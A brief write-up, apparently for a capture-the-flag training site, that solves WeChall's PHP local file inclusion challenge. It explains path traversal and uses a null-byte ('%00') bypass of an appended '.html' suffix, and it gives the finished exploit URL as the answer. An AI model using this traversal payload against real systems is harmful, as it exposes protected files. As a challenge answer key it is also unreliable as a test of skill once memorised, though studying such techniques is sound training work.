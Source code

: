 http://www.wechall.net/challenge/training/php/lfi/up/index.php

according to the problem, we need to make the result of `'pages/'.(isset($_GET["file"])?$_GET["file"]:"welcome").'.html'` to `pages/../../solution.php`

that means we need to pass a GET variable that the script parses it to `../../solution.php`

but did you notice something? there's always `.html` appended to the end of the path.

we will bypass it using `%00`

so, the final url is: `http://www.wechall.net/challenge/training/php/lfi/up/index.php?file=../../solution.php%00`

answer: `http://www.wechall.net/challenge/training/php/lfi/up/index.php?file=../../solution.php%00`